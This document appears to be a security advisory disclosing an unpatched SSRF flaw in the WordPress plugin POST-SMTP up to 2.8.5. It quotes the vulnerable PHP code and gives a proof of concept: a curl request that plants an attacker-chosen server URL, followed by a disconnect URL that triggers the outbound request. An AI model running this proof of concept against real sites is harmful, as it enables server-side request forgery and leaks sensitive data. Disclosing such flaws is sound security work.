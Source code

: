 ### POST-SMTP<= 2.8.5 smtp disconnect is vulnerable to SSRF causing sensitive data leak

- **Application**: POST-SMTP<= 2.8.5

- **Status**: Confirmed, not patched yet

- **Threat Impact**: Sensitive data leakage

- **Code**: Server URL is get from request header, then saved into database in `connect_app`. Then in `disconnect_app`, the server URL is retrieved back from database and used in sink function `wp_remote_post` as URL host.

  File: `Postman/Mobile/includes/rest-api/v1/rest-api.php`

  ```
  public function connect_app( WP_REST_Request $request ) {
    ...
    $server_url = $request->get_header( 'server_url' );
    ...
    update_option( 'post_smtp_server_url', $server_url );
  }
  
  function update_option( $option, $value, $autoload = null ) {
    ...
    $result = $wpdb->update( $wpdb->options, $update_args, array( 'option_name' => $option ) );
  }
  ```

  File: `Postman/Mobile/includes/controller/v1/controller.php`

  ```
  public function disconnect_app() {
    ...
    $server_url = get_option( 'post_smtp_server_url' );
    ...
    $response = wp_remote_post(
  					"{$server_url}/disconnect-app",
    ...
  				);
  }
  ```

- **POC**:

  1. Listen on 8888 on server side

  2. Send the following curl request to set the server

     ```
     curl --location --request POST 'http://test-server/wp-json/post-smtp/v1/connect-app' \
     --header 'auth-key;' \
     --header 'server-url: http://127.0.0.1:8888' \
     --header 'fcm-token: bbbb'
     ```

  3. Login (subscriber is also ok), visit `http://test-server/wp-admin/admin.php?action=post_smtp_disconnect_app&auth_token=bbbb`

  4. Receive a request on server side. 
